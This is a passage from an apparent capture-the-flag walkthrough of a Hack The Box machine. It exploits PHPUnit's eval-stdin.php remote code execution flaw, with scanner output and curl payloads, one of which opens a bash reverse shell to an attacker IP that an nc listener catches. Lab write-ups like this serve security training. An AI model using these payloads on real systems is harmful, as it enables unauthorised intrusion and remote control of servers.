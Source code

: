 ```sh
[-] No Luck for /_staff/cron/php/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php [-]
[-] No Luck for /_staff/php/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php [-]
[-] No Luck for /~champiot/Laravel E2N test/tuto_laravel/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php [-]
<SNIP>
[-] No Luck for /v2/vendor/phpunit/phpunit/Util/PHP/eval-stdin.php [-]
[-] No Luck for /vendor/nesbot/carbon/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php [-]
[-] No Luck for /vendor/phpunit/phpunit/LICENSE/eval-stdin.php [-]
[+] Found RCE for http://store.djewelry.htb/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php [+]
```

The script confirms this is our path forward with phpunit being exploitable. Examples [here](https://gist.github.com/AssassinUKG/9f150ee3da9d9a9e421635876859a26d) and [here](http://web.archive.org/web/20170701212357/http://phpunit.vulnbusters.com/) showed me how to try it:

```sh
curl --data "<?php echo(pi());" http://localhost:8888/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php
```

Which worked when I tested the box:

```sh
┌──(root💀kali)-[~/htb/undetected]
└─# curl --data "<?php echo(pi());" http://store.djewelry.htb/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php
3.1415926535898
```

After some enumeration I tried a reverse shell:

```sh
┌──(root💀kali)-[~/htb/undetected]
└─# curl --data "<?php system('/bin/bash -c \"bash -i >& /dev/tcp/10.10.14.14/1337 0>&1\"');" http://store.djewelry.htb/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php
```

## Reverse Shell

This worked and my waiting nc listener caught the shell:

```sh
┌──(root💀kali)-[~]
└─# nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.146] 57118
bash: cannot set terminal process group (858): Inappropriate ioctl for device
bash: no job control in this shell
www-data@production:/var/www/store/vendor/phpunit/phpunit/src/Util/PHP$ 
```

I'm in as www-data:

```text
www-data@production:/var/www/store/vendor/phpunit/phpunit/src/Util/PHP$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
